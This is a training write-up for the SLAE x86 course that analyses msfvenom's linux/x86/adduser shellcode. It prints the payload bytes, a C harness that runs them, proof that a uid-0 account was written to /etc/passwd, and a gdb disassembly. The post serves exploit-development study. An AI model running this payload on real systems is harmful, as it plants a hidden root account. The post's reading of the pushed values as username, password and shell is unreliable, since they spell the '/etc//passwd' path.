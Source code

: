 ```yaml
---
title:  "SLAE x86 Assignment 5: MSFVenom Shellcode Analysis"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
categories:
  - exploit dev
classes: wide
tags:
  - exploit dev
  - slae
---
```


Hey guys! Welcome back! In this post, we will take a look at assignment 5 of the SLAE x86 certification, which requires us to analyse three MSFVenom shellcodes. Let's dive right in!

## Shellcode 1: linux/x86/adduser ##
Let's start off with something simple. This payload adds a new user to the ```/etc/passwd``` file. Let's have a look at the configurable options:
```
$ msfvenom -p linux/x86/adduser --list-options
Options for payload/linux/x86/adduser:
=========================


       Name: Linux Add User
     Module: payload/linux/x86/adduser
   Platform: Linux
       Arch: x86
Needs Admin: Yes
 Total size: 97
       Rank: Normal

Provided by:
    skape <mmiller@hick.org>
    vlad902 <vlad902@gmail.com>
    spoonm <spoonm@no$email.com>

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
PASS   metasploit       yes       The password for this user
SHELL  /bin/sh          no        The shell for this user
USER   metasploit       yes       The username to create
```
So the basic options show us that it takes the username, password, and shell for this user as arguments. Let's generate some test shellcode:
```
$ msfvenom -p linux/x86/adduser -f c -o adduser USER=metasploit PASS=metasploit
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
Saved as: adduser
```
We paste this in ```shellcode.c```, and compile and run:
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65"
"\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73"
"\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a"
"\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";
main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```
```
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
shellcode.c:12:1: warning: return type defaults to ‘int’ [-Wimplicit-int]
   12 | main()
      | ^~~~
$ sudo ./shellcode
[sudo] password for kali:
Shellcode Length:  40
$ grep metasploit /etc/passwd
metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh
```
So as you can see, a new user with the username ```metasploit``` is added. Let's now analyse how the shellcode works.

## Analysis
Let's take this into ```gdb``` and disassemble the code:
```
Breakpoint 1, 0x00404040 in code ()
gdb-peda$ disas
Dump of assembler code for function code:
=> 0x00404040 <+0>:     xor    ecx,ecx
   0x00404042 <+2>:     mov    ebx,ecx
   0x00404044 <+4>:     push   0x46
   0x00404046 <+6>:     pop    eax
   0x00404047 <+7>:     int    0x80
   0x00404049 <+9>:     push   0x5
   0x0040404b <+11>:    pop    eax
   0x0040404c <+12>:    xor    ecx,ecx
   0x0040404e <+14>:    push   ecx
   0x0040404f <+15>:    push   0x64777373
   0x00404054 <+20>:    push   0x61702f2f
   0x00404059 <+25>:    push   0x6374652f
   0x0040405e <+30>:    mov    ebx,esp
   0x00404060 <+32>:    inc    ecx
   0x00404061 <+33>:    mov    ch,0x4
   0x00404063 <+35>:    int    0x80
   0x00404065 <+37>:    xchg   ebx,eax
   0x00404066 <+38>:    call   0x404093 <code+83>
   0x0040406b <+43>:    ins    DWORD PTR es:[edi],dx
   0x0040406c <+44>:    gs je  0x4040d0
   0x0040406f <+47>:    jae    0x4040e1
   0x00404071 <+49>:    ins    BYTE PTR es:[edi],dx
   0x00404072 <+50>:    outs   dx,DWORD PTR ds:[esi]
   0x00404073 <+51>:    imul   esi,DWORD PTR [edx+edi*1+0x41],0x49642f7a
   0x0040407b <+59>:    jae    0x4040e7
   0x0040407d <+61>:    xor    al,0x70
   0x0040407f <+63>:    xor    al,0x49
   0x00404081 <+65>:    push   edx
   0x00404082 <+66>:    arpl   WORD PTR [edx],di
   0x00404084 <+68>:    xor    BYTE PTR [edx],bh
   0x00404086 <+70>:    xor    BYTE PTR [edx],bh
   0x00404088 <+72>:    cmp    ch,BYTE PTR [edi]
   0x0040408a <+74>:    cmp    ch,BYTE PTR [edi]
   0x0040408c <+76>:    bound  ebp,QWORD PTR [ecx+0x6e]
   0x0040408f <+79>:    das    
   0x00404090 <+80>:    jae    0x4040fa
   0x00404092 <+82>:    or     bl,BYTE PTR [ecx-0x75]
   0x00404095 <+85>:    push   ecx
   0x00404096 <+86>:    cld    
   0x00404097 <+87>:    push   0x4
   0x00404099 <+89>:    pop    eax
   0x0040409a <+90>:    int    0x80
   0x0040409c <+92>:    push   0x1
   0x0040409e <+94>:    pop    eax
   0x0040409f <+95>:    int    0x80
   0x004040a1 <+97>:    add    BYTE PTR [eax],al
End of assembler dump.
```
So right off the bat, the disassembly is quite long. But we don't need to concern ourselves with every single instruction. A few notes can be taken:
- There is an ```int 0x80``` instruction at ```0x00404047```. ```eax``` holds ```0x46``` which is the syscall number. Let's check this out.
- The ```push``` instructions at ```0x0040404f```, ```0x00404054``` and ```0x00404059``` look like our parameters, i.e. our username, password and shell.
- Another ```int 0x80``` at ```0x00404063```, with syscall number ```0x5``` in ```eax``` and a pointer to our arguments in ```ebx```.
- The ```call``` at ```0x00404066``` calls our final shellcode.
